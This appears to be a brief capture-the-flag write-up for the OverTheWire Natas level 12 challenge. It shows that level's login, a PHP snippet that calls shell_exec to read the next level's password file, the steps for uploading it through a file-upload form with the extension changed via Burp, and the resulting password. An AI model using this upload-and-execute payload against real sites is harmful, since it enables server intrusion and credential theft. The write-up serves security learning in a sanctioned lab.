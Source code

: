 # Natas Level 11 --> Level 12

**Username:** natas12

**Password:** EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 

**URL:**      http://natas12.natas.labs.overthewire.org

## Solution
* Open inspect, there is textbox take a background color code and button send us to a page contain source code
* Open source code it generate random path with extention taken from requests (default "v3id13wvte.jpg") to uploaded file, then put it in upload folder 
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas13");
?>
```
* Upload the script then intercept requests with burp to change filename ext to php to execute script onclick
* You got the password!!


## Natas13 Password
>  jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
